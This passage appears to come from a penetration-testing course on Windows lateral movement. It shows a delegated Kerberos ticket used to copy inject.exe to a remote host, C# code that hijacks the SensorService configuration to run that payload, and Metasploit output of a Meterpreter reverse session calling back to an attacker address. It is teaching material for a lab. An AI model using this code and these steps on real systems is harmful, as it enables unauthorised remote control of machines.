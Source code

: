 ```
d-r---        6/24/2020   7:24 AM                Program Files                                                    
d-----        6/24/2020   7:21 AM                Program Files (x86)                                              
d-r---        6/24/2020   1:48 AM                Users                                                            
d-----        6/24/2020   1:22 AM                Windows                                                          
-a----        6/26/2020   2:41 AM           6144 inject.exe 
```

> Listing 44 - The TGS for CIFS service is used to allow a copy operation to file01

With the file in place, we can now move to the second application we used in a previous module with this attack. The code in this application modifies the SensorService in order to start inject.exe when the service is started.

The target computer and service name along with the executable to launch must be specified in the code as shown in Listing 45 where the DllImport statements have been omitted.

```
String target = "file01";
IntPtr SCMHandle = OpenSCManager(target, null, 0xF003F);

string ServiceName = "SensorService";
IntPtr schService = OpenService(SCMHandle, ServiceName, 0xF01FF);

string payload = "C:\\inject.exe";
bool bResult = ChangeServiceConfigA(schService, 0xffffffff, 3, 0, payload, null, null, null, null, null, null);

bResult = StartService(schService, 0, null);
```

> Listing 45 - Code to interact with the service manager

The compiled file (lat.exe) must be uploaded to web01, after which we can invoke it on web01 from the SYSTEM shell. This will leverage the requested TGS we obtained through constrained delegation and perform a pass-the-ticket attack to access the service control manager:

```
PS C:\Windows\system32> c:\inetpub\wwwroot\upload\lat.exe
c:\inetpub\wwwroot\upload\lat.exe
Error in calling StartService: 1053
```

> Listing 46 - Executing the lateral movement code

The 1053 error code indicates that the service manager timed out, which is expected since we did not supply a valid service executable.

When we switch to our payload listener, we find that it started to create a new session, then hung and timed out.

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.131; (UUID: onb58axe) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 2 opened (192.168.119.120:443 -> 192.168.120.131:49763)
```
